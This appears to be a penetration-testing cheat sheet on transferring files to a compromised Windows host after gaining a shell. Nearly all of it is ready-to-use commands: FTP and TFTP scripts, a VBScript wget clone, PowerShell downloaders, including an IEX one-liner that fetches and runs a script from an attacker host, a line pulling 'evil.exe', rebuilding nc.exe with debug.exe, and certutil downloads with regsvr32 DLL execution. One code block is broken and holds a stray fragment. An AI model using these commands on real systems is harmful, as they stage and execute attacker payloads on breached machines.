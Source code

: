 # Transfering files on Windows

Transferring files to Linux is usually pretty easy. We can use `netcat`, `wget`, or `curl`, which most systems have as default. But windows does not have these tools.

## FTP <a id="ftp"></a>

Most windows machines have a ftp-client included. But we can't use it interactively since that most likely would kill our shell. So we have get around that. We can however run commands from a file. So what we want to do is to echo out the commands into a textfile. And then use that as our input to the ftp-client. Let me demonstrate.

On the compromised machine we echo out the following commands into a file

```text
echo open 192.168.1.101 21> ftp.txt
echo USER asshat>> ftp.txt
echo mysecretpassword>> ftp.txt
echo bin>> ftp.txt
echo GET wget.exe>> ftp.txt
echo bye>> ftp.txt
```

Then run this command to connect to the ftp

```text
ftp -v -n -s:ftp.txt
```

Of course you need to have a ftp-server configured with the user asshat and the password to mysecretpassword.

## TFTP <a id="tftp"></a>

Works by default on:

**Windows XP**

**Windows 2003**

A TFTP client is installed by default on windows machines up to Windows XP and Windows 2003. What is good about TFTP is that you can use it non-interactively. Which means less risk of losing your shell.

Kali has a TFTP server build in.  
You can server up some files with it like this

```text
atftpd --daemon --port 69 /tftp
/etc/init.d/atftpd restart
```

Now you can put stuff in `/srv/tftp` and it will be served. Remember that TFTP used UDP. So if you run `netstat` it will not show it as listening.

You can see it running like this

```text
netstat -a -p UDP | grep udp
```

So now you can upload and download whatever from the windows-machine like this

```text
tftp -i 192.160.1.101 GET wget.exe
```

If you like to test that the tftp-server is working you can test it from Linux, I don't think it has a non-interactive way.

```text
tftp 192.160.1.101
GET test.txt
```

I usually put all files I want to make available in `/srv/tftp`

If you want to make sure that the file was uploaded correct you can check in the syslog. Grep for the IP like this:

`grep 192.168.1.101 /var/log/syslog`

## VBScript <a id="vbscript"></a>

Here is a good script to make a wget-clone in VB.

If it doesn't work try piping it through unix2dos before copying it.

```text
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

**Note:** wget.vbs should be 990 bytes

You then execute the script like this:

```text
cscript wget.vbs http://192.168.10.5/evil.exe evil.exe
```

## PowerShell <a id="powershell"></a>

This is how we can download a file using PowerShell. Remember since we only have a non-interactive shell we cannot start PowerShell.exe, because our shell can't handle that. But we can get around that by creaing a PowerShell-script and then executing the script:

```text
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://192.168.1.101/file.exe" >>wget.ps1
echo $file = "output-file.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

Now we invoke it with this:

```text
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

## Powershell Downloader <a id="powershell-downloader"></a>

```text
IEX(New-Object Net.WebClient).downloadString('http://KaliIP:8000/Sherlock.ps1; Find-AllVulns')
or modded script
IEX(New-Object Net.WebClient).downloadString('http://KaliIP:8000/vulnSher.ps1')
```

## Debug.exe <a id="debugexe"></a>

This is a crazy technique that works on windows 32 bit machines. Basically the idea is to use the `debug.exe` program. It is used to inspect binaries, like a debugger. But it can also rebuild them from hex. So the idea is that we take a binaries, like `netcat`. And then disassemble it into hex, paste it into a file on the compromised machine, and then assemble it with `debug.exe`.

`Debug.exe` can only assemble 64 kb. So we need to use files smaller than that. We can use upx to compress it even more. So let's do that:

```text
upx -9 nc.exe
```

Now it only weights 29 kb. Perfect. So now let's disassemble it:

```text
wine exe2bat.exe nc.exe nc.txt
```

Now we just copy-past the text into our windows-shell. And it will automatically create a file called nc.exe

### If you a GUI but are limited <a id="if-you-a-gui-but-are-limited"></a>

download files via notepad:

```text
from notepad click file->"Open" in the "File name:" field type the path to your file (ex. http://10.10.10.1/evil.sh) and click Open.
```

## Certutil <a id="certutil"></a>

1. Create your DLL \(or file interested in transfer\)
2. Base64encode it \(optional\)
3. Use certutil.exe -urlcache -split -f [http://example/file.txt](http://example/file.txt) file.blah to pull it down

```text
 example/file.txt file.blah
```

1. Base64decode the file with certutil \(optional\)

```text
certutil.exe -decode dll.txt mydll.dll
```

1. Execute the dll with regsvr32

```text
regsvr32 /s /u mydll.dll
```

[http://carnal0wnage.attackresearch.com/2017/08/certutil-for-delivery-of-files.html](http://carnal0wnage.attackresearch.com/2017/08/certutil-for-delivery-of-files.html)

